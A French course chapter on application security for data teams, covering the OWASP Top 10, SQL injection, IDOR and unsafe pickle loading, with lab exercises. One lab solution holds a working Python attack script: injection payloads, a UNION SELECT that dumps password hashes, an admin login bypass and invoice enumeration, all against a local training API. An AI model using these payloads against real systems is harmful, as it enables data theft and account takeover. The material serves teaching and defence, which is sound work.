

[← Chapitre précédent](04-Authentification-et-controle-d-acces.md) · [Sommaire](Readme.md) · [Chapitre suivant →](06-Protection-des-donnees-et-RGPD.md)

# Sécurité des applications

Les données sont rarement volées directement dans la base : on passe par
l'application qui y donne accès - une API, un tableau de bord, un notebook
exposé. Ce chapitre présente les vulnérabilités applicatives les plus
répandues, puis vous fait **attaquer** et **corriger** une petite API de
données. Il se termine sur un piège propre à l'écosystème data : le format
`pickle`.

## 🎯 Objectifs

- Connaître l'**OWASP Top 10** et savoir à quoi correspond chaque catégorie.
- Comprendre, exploiter et corriger une **injection SQL**.
- Comprendre et corriger un **contrôle d'accès défaillant** (IDOR).
- Savoir pourquoi un fichier `pickle` ne se charge jamais s'il n'est pas de
  confiance.
- Connaître les pratiques et outils du **développement sécurisé**.

---

## 1. L'OWASP Top 10

L'**OWASP** (*Open Worldwide Application Security Project*) est une fondation
qui publie des ressources libres sur la sécurité applicative. Son **Top 10**,
mis à jour tous les trois à quatre ans à partir de données réelles, est la
référence pour hiérarchiser les risques des applications web. Voici l'édition
2025 :

| # | Catégorie | En bref | Exemple data |
|---|---|---|---|
| A01 | **Contrôle d'accès défaillant** | un utilisateur accède à ce qui ne lui est pas destiné | changer l'identifiant dans l'URL pour lire le rapport d'un autre client |
| A02 | **Mauvaise configuration de sécurité** | réglages par défaut, services inutiles exposés, erreurs bavardes | serveur Jupyter ou Elasticsearch ouvert sur Internet sans authentification |
| A03 | **Défaillances de la chaîne d'approvisionnement logicielle** | dépendances vulnérables ou malveillantes, outillage de build compromis | paquet PyPI au nom proche d'un paquet connu (*typosquatting*), modèle téléchargé piégé |
| A04 | **Défaillances cryptographiques** | données sensibles non chiffrées, algorithmes faibles | sauvegarde de la base en clair dans un stockage objet |
| A05 | **Injection** | des données sont interprétées comme du code | injection SQL dans une API, injection de prompt dans un LLM (chapitre 07) |
| A06 | **Conception non sécurisée** | la faille est dans l'architecture, pas dans le code | une API d'export sans limite de volume |
| A07 | **Défaillances d'authentification** | mots de passe faibles admis, sessions mal gérées | pas de limitation des tentatives de connexion |
| A08 | **Défaillances d'intégrité des logiciels et des données** | on fait confiance à du code ou des données non vérifiés | désérialisation d'un `pickle` non fiable |
| A09 | **Défaillances de journalisation et d'alerte** | on ne voit pas l'attaque | aucun journal des exports de données |
| A10 | **Mauvaise gestion des conditions exceptionnelles** | les erreurs sont mal traitées : l'application plante, ouvre un accès, ou en dit trop | trace Python complète renvoyée par l'API |

> 💡 L'édition 2021, encore très citée, est proche : les catégories
> "chaîne d'approvisionnement" et "conditions exceptionnelles" y étaient
> moins larges ou absentes, et la falsification de requêtes côté serveur
> (SSRF) y avait sa propre entrée - elle est intégrée à A01 en 2025.

## 2. L'injection

Une injection se produit quand une donnée fournie par l'utilisateur est
**concaténée** dans un langage interprété - SQL, commande système, requête
NoSQL, expression `pandas.eval`, gabarit HTML, prompt - et se met à **changer
le sens** de l'instruction.

```python
ville = request.args["ville"]
sql = f"SELECT nom, email FROM clients WHERE ville = '{ville}'"
```

Avec `ville = Lyon`, tout va bien. Avec `ville = x' OR '1'='1`, la requête
devient :

```sql
SELECT nom, email FROM clients WHERE ville = 'x' OR '1'='1'
```

La condition est toujours vraie : toute la table sort. Avec un `UNION SELECT`,
on lit n'importe quelle autre table ; selon la base, on peut aussi modifier
les données ou exécuter des commandes. C'est par une injection SQL que le
groupe Cl0p a vidé les serveurs MOVEit de milliers d'organisations en 2023.

**La parade : la requête paramétrée.** La requête et les données voyagent
séparément ; la base ne peut pas confondre les deux.

```python
sql = "SELECT nom, email FROM clients WHERE ville = ?"
base.execute(sql, (ville,))
```

Les ORM (SQLAlchemy, Django) paramètrent automatiquement, tant qu'on n'y
réinjecte pas de SQL brut construit à la main. La validation des entrées
(type, longueur, liste de valeurs autorisées) complète la défense, mais ne la
remplace pas.

> ⚠️ Côté data, on retrouve le même défaut dans `df.query(f"ville ==
> '{saisie}'")`, `eval()`, ou `subprocess.run(f"... {saisie}", shell=True)`.
> Toute donnée extérieure collée dans du code est une injection en puissance.

## 3. Le contrôle d'accès défaillant

C'est la première catégorie du Top 10. Sa forme la plus courante est
l'**IDOR** (*Insecure Direct Object Reference*) : l'application vérifie que
l'utilisateur est connecté, mais pas que **l'objet demandé lui appartient**.

```text
GET /api/factures/1   →  ma facture
GET /api/factures/2   →  …la facture d'un autre client
```

La règle : **chaque requête** est autorisée **côté serveur**, en fonction de
l'utilisateur authentifié et de l'objet demandé. Masquer un bouton dans
l'interface ne protège rien : l'attaquant appelle l'API directement.

## 4. La désérialisation non sûre : le cas `pickle`

`pickle` est le format de sérialisation natif de Python. C'est aussi, par
défaut, celui de `joblib`, des modèles scikit-learn sauvegardés, et
historiquement des fichiers PyTorch `.pt`. Or **charger un pickle, c'est
exécuter du code** : le format permet de demander, au chargement, l'appel de
n'importe quelle fonction Python.

> La documentation de Python l'écrit en tête de la page du module : *"Le
> module pickle n'est pas sécurisé. Ne désérialisez que des données dont vous
> êtes certain de la provenance."*

Télécharger un modèle `.pkl` sur un forum ou un hub de modèles et le charger
revient à exécuter un programme inconnu, avec vos droits et vos clés d'accès.
Des modèles piégés de cette façon ont été trouvés sur des plateformes
publiques.

Les parades :

- ne charger que des fichiers **de confiance**, dont on vérifie la
  **signature** ou au moins l'empreinte (chapitre 03) ;
- préférer des formats **sans code** : **safetensors** pour les poids des
  réseaux de neurones, **ONNX** pour l'échange de modèles, **skops** pour
  scikit-learn, JSON ou Parquet pour les données ;
- avec PyTorch, `torch.load(..., weights_only=True)`, comportement par défaut
  depuis la version 2.6 ;
- charger les modèles d'origine incertaine dans un environnement **isolé**
  (conteneur sans secrets ni réseau), et les analyser avec un scanner
  (`modelscan`, `picklescan`).

## 5. Le développement sécurisé

La sécurité se construit tout au long du cycle de vie, pas en fin de projet :



| Pratique | Ce qu'elle trouve | Outils Python / data |
|---|---|---|
| **SAST** - analyse statique du code | injections, `pickle.load`, `eval`, secrets, `shell=True` | `bandit`, `semgrep` |
| **SCA** - analyse des dépendances | bibliothèques avec des vulnérabilités connues (CVE) | `pip-audit`, Dependabot, `trivy` |
| **Détection de secrets** | clés et mots de passe commités | `gitleaks`, `trufflehog` (chapitre 04) |
| **DAST** - test de l'application en marche | failles visibles de l'extérieur | OWASP ZAP |
| **Analyse d'images** | paquets vulnérables dans les conteneurs | `trivy`, `grype` |

Et pour la chaîne d'approvisionnement : **épingler** les versions et les
empreintes des dépendances (`pip install --require-hashes`, `uv.lock`,
`poetry.lock`), vérifier le nom exact d'un paquet avant de l'installer,
limiter le nombre de dépendances.

Les vulnérabilités publiques sont référencées par un identifiant **CVE**
(*Common Vulnerabilities and Exposures*) et notées de 0 à 10 par le score
**CVSS**. Le CERT-FR publie des avis et alertes pour les plus importantes.

---

## 🛠️ TP 1 - Attaquer une API de données

L'API de `tp/05-appli/app.py` sert les clients, les utilisateurs et les
factures d'une PME. Démarrez-la dans un premier terminal :

```bash
cd tp
docker compose up api
```

Vérifiez dans votre navigateur que <http://localhost:5000> répond. Dans un
second terminal, ouvrez le laboratoire : il joint l'API à l'adresse
`http://api:5000`.

```bash
cd tp
docker compose run --rm lab
cd 05-appli
```

Écrivez `attaque.py` avec la bibliothèque `requests`, et réalisez les étapes
suivantes. Lisez `app.py` si vous êtes bloqué·e : en audit, on dispose souvent
du code.

1. Listez les clients de Lyon.
2. Envoyez une apostrophe seule comme ville. Que vous apprend la réponse ?
3. Listez **tous** les clients, quelle que soit leur ville.
4. Listez les **tables** de la base. *Indice : sous SQLite, la table
   `sqlite_master` décrit le schéma, avec les colonnes `name`, `sql` et
   `type`. La requête d'origine renvoie trois colonnes.*
5. Récupérez les identifiants, empreintes de mots de passe et rôles des
   **utilisateurs**.
6. Connectez-vous en tant qu'`admin` **sans connaître son mot de passe**.
7. Connecté·e en tant que `bruno.petit` (en-tête `X-Utilisateur:
   bruno.petit`), lisez les factures des autres.
8. *Bonus* : réutilisez votre script du chapitre 03, adapté au SHA-256, pour
   retrouver le mot de passe de l'administrateur.

<details>
<summary>Voir la correction</summary>

```python
import requests

API = "http://api:5000"


def clients(ville: str):
    return requests.get(f"{API}/api/clients", params={"ville": ville}, timeout=5).json()


# 1. Usage normal
print(clients("Lyon"))

# 2. Une apostrophe casse la requête… et l'API nous la montre
print(clients("'"))
# {'erreur': 'unrecognized token: "\'\'\'"',
#  'requete': "SELECT nom, email, ville FROM clients WHERE ville = '''"}

# 3. Condition toujours vraie
print(clients("x' OR '1'='1"))

# 4. Cartographie du schéma
for ligne in clients("x' UNION SELECT name, sql, type FROM sqlite_master --"):
    print(ligne)

# 5. Vol de la table des utilisateurs
for ligne in clients("x' UNION SELECT identifiant, mdp_sha256, role FROM utilisateurs --"):
    print(ligne)

# 6. Contournement de l'authentification : "--" commente la vérification
#    du mot de passe
print(requests.post(f"{API}/api/connexion", timeout=5,
                    json={"identifiant": "admin' --", "mot_de_passe": "peu importe"}).json())
# {'message': 'Bienvenue admin', 'role': 'admin'}

# 7. IDOR : on énumère les identifiants de factures
for i in range(1, 6):
    r = requests.get(f"{API}/api/factures/{i}", headers={"X-Utilisateur": "bruno.petit"}, timeout=5)
    print(i, r.json())
```

Constats :

- L'étape 2 donne la requête complète : l'attaquant sait exactement quoi
  injecter. C'est une **mauvaise gestion des erreurs** (A10) au service de
  l'**injection** (A05).
- Aux étapes 4 et 5, l'attaquant obtient le schéma puis les empreintes de
  mots de passe, en SHA-256 sans sel (**A04**).
- À l'étape 7, Bruno lit les factures d'Emma et le contrat confidentiel de
  l'administrateur (**A01**).
- Bonus : en remplaçant `hashlib.md5` par `hashlib.sha256` dans `casser.py`,
  on retrouve `Admin2025` pour `admin` et `azerty` pour `bruno.petit`.

Et l'en-tête `X-Utilisateur` lui-même ? N'importe qui peut écrire
`X-Utilisateur: admin` : c'est une **usurpation** (le S de STRIDE). Une vraie
API identifie l'utilisateur par une session ou un jeton signé (chapitre 04).
On le garde ici pour simplifier.

</details>

## 🛠️ TP 2 - Corriger l'API

Modifiez `app.py` pour corriger :

1. les deux injections SQL ;
2. la fuite d'informations dans les messages d'erreur ;
3. l'IDOR sur les factures.

Arrêtez l'API (`Ctrl+C`), relancez-la avec `docker compose up api`, et
rejouez `attaque.py` : plus aucune étape ne doit réussir, et l'usage normal
(étape 1) doit fonctionner.

<details>
<summary>Voir la correction</summary>

Route `/api/clients` : requête paramétrée, erreur générique, détail dans les
journaux du serveur.

```python
@app.get("/api/clients")
def clients():
    ville = request.args.get("ville", "")
    try:
        lignes = base().execute(
            "SELECT nom, email, ville FROM clients WHERE ville = ?", (ville,)
        ).fetchall()
    except sqlite3.Error:
        app.logger.exception("Erreur SQL sur /api/clients")
        return jsonify({"erreur": "erreur interne"}), 500
    return jsonify([dict(ligne) for ligne in lignes])
```

Route `/api/connexion` : même traitement.

```python
    try:
        ligne = base().execute(
            "SELECT identifiant, role FROM utilisateurs WHERE identifiant = ? AND mdp_sha256 = ?",
            (identifiant, empreinte),
        ).fetchone()
    except sqlite3.Error:
        app.logger.exception("Erreur SQL sur /api/connexion")
        return jsonify({"erreur": "erreur interne"}), 500
```

Route `/api/factures/<id>` : la condition de propriété est dans la requête
elle-même.

```python
    ligne = base().execute(
        "SELECT id, proprietaire, client, montant FROM factures WHERE id = ? AND proprietaire = ?",
        (id_facture, utilisateur),
    ).fetchone()
    if ligne is None:
        return jsonify({"erreur": "facture inconnue"}), 404
```

On répond **404** et non 403 : un 403 confirmerait à l'attaquant que la
facture existe.

Rejouée, l'attaque donne :

- étapes 2 à 5 : une liste vide (aucune ville ne s'appelle `x' OR '1'='1`) ;
- étape 6 : `identifiants incorrects` ;
- étape 7 : Bruno ne voit que ses factures 1 et 2.

Pour aller jusqu'au bout, il faudrait encore : stocker les mots de passe en
Argon2id ou scrypt (chapitre 03), remplacer `X-Utilisateur` par un vrai jeton,
limiter les tentatives de connexion, journaliser les échecs (chapitre 08).

Pour voir ce qu'un outil aurait trouvé seul, lancez une analyse statique sur
la version d'origine :

```bash
pip install bandit && bandit app.py
```

`bandit` signale les requêtes SQL construites par formatage de chaîne
(`B608`) - avant même que l'application ne tourne.

</details>

## 🛠️ TP 3 - Le modèle piégé *(facultatif)*

> Si vous sautez ce TP, relisez la section 4 ("La désérialisation non sûre :
> le cas `pickle`") : elle suffit pour la suite du cours et pour le quiz.

Un collègue vous transmet un modèle "très performant" trouvé en ligne,
`modele_piege.pkl`. Dans le laboratoire :

```bash
cd 05-appli
python fabriquer_modele_piege.py   # simule le fichier reçu
python charger_modele.py modele_piege.pkl
```

1. Que se passe-t-il au chargement ? Un fichier est-il apparu ?
2. Lisez `fabriquer_modele_piege.py` : quel mécanisme de `pickle` est
   exploité ?
3. Qu'aurait pu faire une charge utile réellement malveillante, lancée sur le
   poste d'un data scientist ou sur un serveur d'entraînement ?
4. Comment protéger le registre de modèles du chapitre 02 ?

<details>
<summary>Voir la correction</summary>

1. Le message de l'attaquant s'affiche **avant** "Modèle chargé", et un
   fichier `PIRATE.txt` est créé dans le dossier. Le code s'est exécuté
   pendant `pickle.load`, sans qu'on appelle la moindre méthode du modèle.
   Supprimez `PIRATE.txt` et `modele_piege.pkl`.

2. La méthode spéciale `__reduce__` indique à `pickle` comment reconstruire
   un objet : "appelle cette fonction avec ces arguments". Rien n'empêche
   de désigner `exec`, `os.system` ou `subprocess.run`.

3. Tout ce que peut faire l'utilisateur qui charge le modèle : lire les
   variables d'environnement (clés cloud, jetons d'API), les fichiers
   `~/.aws/credentials` ou `~/.ssh/`, les données du projet ; installer une
   porte dérobée ; se propager vers le cluster d'entraînement, qui a souvent
   des droits larges sur le data lake.

4. Mesures pour le registre :
   - n'accepter que des formats **sans exécution de code** (safetensors,
     ONNX, skops) ;
   - **signer** les modèles à leur publication et vérifier la signature au
     déploiement (chapitre 03, section 5 et étape 5 du TP) ;
   - **scanner** les modèles entrants (`modelscan`, `picklescan`) ;
   - restreindre l'**écriture** dans le registre au seul pipeline
     d'entraînement ;
   - charger les modèles dans des conteneurs **sans secrets** et au réseau
     restreint.

</details>

---

## 🧠 À retenir

- Le **Top 10 de l'OWASP** est la carte des risques applicatifs ; le contrôle
  d'accès défaillant et l'injection y figurent depuis toujours.
- Contre l'injection : **requêtes paramétrées**, jamais de concaténation.
- Contre l'IDOR : **chaque requête** est autorisée côté serveur, objet par
  objet.
- Les erreurs détaillées vont dans les **journaux**, pas dans la réponse.
- **Charger un pickle, c'est exécuter du code.** Formats sûrs, signatures,
  isolement.
- Les outils (`bandit`, `pip-audit`, `gitleaks`, `trivy`) s'intègrent à la CI
  et trouvent beaucoup de défauts avant la production.

---

[← Chapitre précédent](04-Authentification-et-controle-d-acces.md) · [Sommaire](Readme.md) · [Chapitre suivant →](06-Protection-des-donnees-et-RGPD.md)
